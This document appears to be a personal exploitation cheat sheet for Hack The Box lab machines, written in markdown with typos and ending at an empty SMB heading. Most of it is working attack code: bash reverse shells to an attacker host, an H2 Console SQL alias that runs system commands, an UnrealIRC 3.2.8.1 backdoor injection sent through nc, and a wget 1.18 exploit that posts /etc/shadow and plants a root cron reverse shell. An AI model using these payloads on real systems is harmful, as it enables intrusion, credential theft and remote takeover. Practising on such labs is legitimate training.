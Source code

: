 1. we create exec.sh with bash revshell in victims tmp dir with 

```bash
!/bin/bash
bash -i >& /dev/tcp/<attcker ip>/9004 0>&1
```

2. We wxecute from the H2 Console 
```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
CALL SHELLEXEC('/tmp/exec.sh')
```

# UnrealIRC 3.2.8.1 (HTB irked)

1. we can confirm code exec using ping 

 ```
 echo "AB; ping -c 1 <attacker ip>" | nc <victime ip> 8067`
```

2. we try to get shell using
```
echo "AB; bash -c 'bash -i >& /dev/tcp/<attacker ip>/9001 0>&1'" | nc <victime ip> 8067
```



# RCE upto wget  1.18 (HTB Kotarak)

1. .wgetrc file on our machine 
```
post_file = /etc/shadow
output_document = /etc/cron.d/wget-root-shell
```

2. we will setup FTP severver using 

```
python3 -m pyftpdlib -p21 -w
```
3. exploit.py 

```py
HTTP_LISTEN_IP = '0.0.0.0'
HTTP_LISTEN_PORT = 80
FTP_HOST = '<attcker IP>'
FTP_PORT = 21

ROOT_CRON = "* * * * * root bash -c 'bash -i >& /dev/tcp/10.10.14.28/6666 0>&1' \n"

```


# SMB 3.0.20 
